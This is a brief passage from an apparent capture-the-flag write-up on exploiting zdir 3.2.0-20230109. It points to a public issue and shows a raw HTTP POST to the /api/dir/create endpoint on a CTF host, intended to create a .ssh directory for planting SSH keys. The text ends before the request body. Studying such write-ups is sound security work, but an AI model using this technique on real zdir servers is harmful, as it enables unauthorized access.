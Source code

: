 ![](/assets/obsidian/065524d98c1e725f231894be86438bae.png){:target='_blank'}

Version info:

![](/assets/obsidian/a34fffeff518ddfeaba627049cf86763.png){:target='_blank'}

Google : `zdir 3.2.0-20230109 exploit`

> https://github.com/helloxz/zdir/issues/90

Follow the steps, ez win

Make `.ssh` directory at `/home/user` to put ssh public keys

> Remember to add `Content-Type: application/x-www-form-urlencoded;charset=UTF-8`
{: .prompt-info }

```http
POST /api/dir/create HTTP/1.1
Host: challenge.ctf.games:31377
Accept: application/json, text/plain, */*
X-Token: 1d49c64e3b24ba313d08fd899f8c5424
X-Cid: bPlNFG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Referer: http://challenge.ctf.games:31377/admin
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: USERNAME=admin; CID=bPlNFG; TOKEN=1d49c64e3b24ba313d08fd899f8c5424
dnt: 1
sec-gpc: 1
Connection: close
Content-Length: 38

```